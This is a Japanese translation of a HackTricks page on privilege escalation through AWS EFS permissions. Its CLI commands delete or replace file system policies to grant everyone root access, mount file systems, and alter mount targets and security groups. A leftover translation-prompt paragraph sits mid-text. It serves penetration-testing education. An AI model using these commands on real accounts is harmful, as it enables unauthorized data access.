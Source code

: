 # AWS - EFS Privesc

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)でAWSハッキングをゼロからヒーローまで学ぶ</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)で**フォロー**する。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有する**。

</details>

## EFS

EFSについての**詳細情報**はこちら:

{% content-ref url="../aws-services/aws-efs-enum.md" %}
[aws-efs-enum.md](../aws-services/aws-efs-enum.md)
{% endcontent-ref %}

EFSをマウントするには、EFSが公開されているサブネットワークにいて、それにアクセスする権限（セキュリティグループ）が必要であることを覚えておいてください。これが可能な場合、デフォルトでは常にマウントできますが、IAMポリシーによって保護されている場合は、ここで言及されている追加の権限が必要です。

### `elasticfilesystem:DeleteFileSystemPolicy`|`elasticfilesystem:PutFileSystemPolicy`

これらの権限のいずれかを持っている攻撃者は、**ファイルシステムポリシーを変更して**アクセスを**許可する**ことができますし、単に**削除して**デフォルトのアクセスを**許可する**こともできます。

ポリシーを削除するには：
```bash
aws efs delete-file-system-policy \
--file-system-id <value>
```
変更するには：
```json
aws efs put-file-system-policy --file-system-id <fs-id> --policy file:///tmp/policy.json

// Give everyone trying to mount it read, write and root access
// policy.json:
{
"Version": "2012-10-17",
"Id": "efs-policy-wizard-059944c6-35e7-4ba0-8e40-6f05302d5763",
"Statement": [
{
"Sid": "efs-statement-2161b2bd-7c59-49d7-9fee-6ea8903e6603",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"elasticfilesystem:ClientRootAccess",
"elasticfilesystem:ClientWrite",
"elasticfilesystem:ClientMount"
],
"Condition": {
"Bool": {
"elasticfilesystem:AccessedViaMountTarget": "true"
}
}
}
]
}
```
### `elasticfilesystem:ClientMount|(elasticfilesystem:ClientRootAccess)|(elasticfilesystem:ClientWrite)`

この権限を持つ攻撃者は**EFSをマウント**することができます。EFSをマウントできる全員にデフォルトで書き込み権限が与えられていない場合、攻撃者は**読み取りアクセス**のみを持ちます。
```bash
sudo mkdir /efs
sudo mount -t efs -o tls,iam  <file-system-id/EFS DNS name>:/ /efs/
```
以下のテキストは、ハッキング技術に関する本の内容です。関連する英語テキストを日本語に翻訳し、同じマークダウンおよびHTML構文を保持して翻訳を返してください。コード、ハッキング技術名、ハッキング用語、クラウド/SaaSプラットフォーム名（Workspace、aws、gcpなど）、'leak'という単語、ペネトレーションテスト、およびマークダウンタグなどは翻訳しないでください。また、翻訳とマークダウン構文以外の余分なものは追加しないでください。

---

追加の権限`elasticfilesystem:ClientRootAccess`と`elasticfilesystem:ClientWrite`は、ファイルシステムがマウントされた後にそのファイルシステム内で**書き込む**ため、また**rootとしてアクセスする**ために使用できます。

**潜在的な影響：** ファイルシステム内の機密情報を見つけることによる間接的な権限昇格。

### `elasticfilesystem:CreateMountTarget`

攻撃者がEFSの**マウントターゲットが存在しない** **サブネットワーク**内にいる場合、この権限を持っていれば、自分のサブネット内に簡単に**新しいマウントターゲットを作成できます**。
```bash
# You need to indicate security groups that will grant the user access to port 2049
aws efs create-mount-target --file-system-id <fs-id> \
--subnet-id <value> \
--security-groups <value>
```
**潜在的影響：** ファイルシステム内で機密情報を見つけることによる間接的な権限昇格。

### `elasticfilesystem:ModifyMountTargetSecurityGroups`

攻撃者がEFSが自分のサブネットワーク内にマウントターゲットを持っているが、**トラフィックを許可するセキュリティグループがない**ことを発見した場合、選択されたセキュリティグループを**変更することでそれを変える**ことができます：
```bash
aws efs modify-mount-target-security-groups \
--mount-target-id <value> \
--security-groups <value>
```
**潜在的な影響：** ファイルシステム内の機密情報を見つけることによる間接的な権限昇格。



<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)でAWSハッキングをゼロからヒーローまで学ぶ</strong></summary>

HackTricksをサポートする他の方法：

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**テレグラムグループ**](https://t.me/peass)に参加する、または**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォローする**。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを共有する。

</details>
